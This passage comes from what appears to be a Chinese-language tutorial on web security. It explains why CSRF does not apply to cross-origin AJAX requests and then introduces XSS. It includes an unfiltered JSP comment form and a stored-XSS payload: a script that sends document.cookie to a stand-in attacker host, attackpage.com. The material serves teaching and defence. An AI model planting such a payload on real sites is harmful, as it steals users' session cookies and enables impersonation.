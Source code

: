 ```js
1. AJAX受到浏览器的同源策略限制

2. AJAX默认无法请求跨域的接口
（当然后台可以配置`Access-Control-Allow-Origin: *`之类的允许所有的跨域请求）

3. AJAX请求无法携带跨域cookie
（如果强行开启withCredentials，必须服务端配合认证，无法用作攻击）
```

嗯哼...看到这，基本就可以认为CSRF与AJAX请求无缘了。。。

譬如假设上图中第`4`部分的请求由AJAX发起，假设网站A已经允许了`Access-Control-Allow-Origin: *`，由于网站B与网站A是不同域名，所以存在跨域，根据同源策略，请求时根本就无法携带cookie，故而无法通过身份认证，攻击失败。。。
就算强行开启withCredentials，携带跨域cookie，但是由于服务端并不会单独配置网站B的跨域cookie（需配置`Access-Control-Allow-Credentials: true`，而且这时候不允许设置`Allow-Origin: *`），所以肯定认证失败

可以看到，就算`Access-Control-Allow-Origin: *`允许所有来源的AJAX请求，跨域的cookie默认情况下仍然是无法携带的，无法CSRF

所以说，结论是：**CSRF与AJAX无关**

### XSS简介

既然CSRF与AJAX关系不大，那么XSS应该会与AJAX有很大关系吧？（要不然为什么一直说AJAX请求不安全，对吧。）。那么请继续看下去（本文中只限JS范畴）

XSS（cross-site scripting），看起来简写应该是css更合适。。。但是为了和层叠式样式表区分，就用XSS简写表示

XSS的特征也可以概括为：**跨域脚本注入，攻击者通过某种方式将恶意代码注入到网页上，然后其他用户观看到被注入的页面内容后会受到特定攻击**

相比CSRF，XSS囊括的内容更多，而且往往是多种攻击形式组合而成，这里以前文中介绍的几种为例：

![](https://dailc.github.io/staticResource/blog/basicKnowledge/ajax/img/xss_attack_info.png)

**1.cookie劫持**

同样，页面中有一个评论输入，输入后会，因为后台的漏洞，没有过滤特殊字符，会直接明文保存到数据库中，然后展示到网页时直接展示明文数据，那么如下

```html
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<form action="saveComment.jsp" method="post"> 
     请输入评论内容：<BR> 
     <input name="content" type="text"> 
     <input type="submit" value="确认">
</form> 
```

然后攻击者分析后，输入

```html
<script>window.open("http://www.attackpage.com/record?secret=" + document.cookie)</script>
```

保存文章。很简单的代码，由于没有过滤脚本，那么其它用户登陆后，在看到这篇文章时就会自动将他们的cookie信息都发送到了攻击者的服务器。
攻击者可以在cookie（譬如jsessionid对应的session）有效期内拿它们冒充用户操作。

需要注意，这里和CSRF的区别是，这里是拿到了cookie后主动冒充用户的，而CSRF中根本就不知cookie，仅利用浏览器的隐式校验方式冒充用户。

**2.会话伪造**

同样是评论漏洞的示例。

